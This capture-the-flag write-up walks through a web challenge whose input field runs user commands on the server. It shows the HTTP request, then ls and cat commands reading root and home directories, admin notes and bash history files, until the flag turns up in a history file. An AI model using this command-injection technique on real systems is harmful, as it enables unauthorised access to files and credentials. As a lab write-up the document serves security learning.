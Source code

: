 ![](../img/TPCC.png)


# Information gathering
Entering the page the user is presented with a input field and here the first step was to enter a "list" command ```ls```.   
![](../img/TPCC_Input_Field.png)


Request:
```http
POST /temple HTTP/1.1
Host: 64.227.121.142:6002
Content-Length: 10
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6002
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

command=ls
```


Response HTML snippet:
```html
<!-- Resultat -->
<pre class="p-3 bg-dark text-success rounded mt-4">bin
	etc
	home
	root
	var
	usr
	tmp
</pre>
```


So the input filed takes a UNIX command and executes it on the server.  
Next step is to see if the ```root``` directory is accessible to start looking for the flag.  
Request command parameter and response HTML snippet:  
```
ls root
```
```html
<!-- Resultat -->
<pre class="p-3 bg-dark text-success rounded mt-4">.bash_profile
.bashrc
.
ancient_curse.txt
.bash_history
admin_notes.txt
secret_key
..
.bash_history</pre>
```

Start by checking the ```ancient_curse.txt``` to find a fake flag. 
```
cat root/ancient_curse.txt
```
```
O24{almost_there_but_not_the_real_flag}
```


Start looking through files in the root:
```
cat root/admin_notes.txt
```
```
Remember to rotate all keys and check for unauthorized access attempts in the logs.
```

```
cat root/.bash_history
```
```
cd /etc
nano shadow
systemctl restart ssh
exit
```

No flag found.

```
whoami
```
```
explorer
```

```
ls home/explorer
```
```
README.md
.bash_history
clues.txt
```

```
cat home/explorer/clues.txt
```
```
cat: /home/explorer/clues.txt: No such file or directory
```

```
cat home/explorer/.bash_history
```
```
s -la
cd /home/anubis
cat notes.txt
grep 'treasure' /home/pharaoh/secret_scroll.txt
cd /root
cat ancient_curse.txt
echo 'This is not working'
find / -name '*flag*' 2>/dev/null
echo 'O24{command_of_the_pharaoh}' > found_it.txt  # OH! I found it!
rm found_it.txt  # Better remove this quickly
cd /var/log
grep 'suspicious' auth.log
cd /home/explorer
clear
exit
```

Here the flag is found:
```Flag:O24{command_of_the_pharaoh}```
